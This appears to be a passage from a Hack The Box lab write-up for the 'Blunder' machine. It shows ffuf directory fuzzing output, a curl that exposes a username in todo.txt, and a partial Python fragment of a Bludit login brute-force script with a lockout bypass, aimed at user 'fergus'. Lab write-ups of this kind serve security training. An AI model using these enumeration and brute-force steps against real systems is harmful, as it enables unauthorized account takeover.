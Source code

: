 ```
wscan@kali:~/htb/blunder$ ffuf -w $WLRC -t 50 -e .txt -u http://blunder.htb/FUZZ -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://blunder.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Extensions       : .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response status: 403
________________________________________________

0                       [Status: 200, Size: 7561, Words: 794, Lines: 171]
LICENSE                 [Status: 200, Size: 1083, Words: 155, Lines: 22]
about                   [Status: 200, Size: 3280, Words: 225, Lines: 106]
admin                   [Status: 301, Size: 0, Words: 1, Lines: 1]
cgi-bin/                [Status: 301, Size: 0, Words: 1, Lines: 1]
robots.txt              [Status: 200, Size: 22, Words: 3, Lines: 2]
robots.txt              [Status: 200, Size: 22, Words: 3, Lines: 2]
todo.txt                [Status: 200, Size: 118, Words: 20, Lines: 5]

snowscan@kali:~/htb/blunder$ curl http://blunder.htb/todo.txt
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING

```

To brute force we can use the following script: https://rastating.github.io/bludit-brute-force-mitigation-bypass/

I modified it a little bit to take a wordlist from argv:

```python
[...]
host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []

with open(sys.argv[1]) as f:
    passwords = f.read().splitlines()    
[...]
```
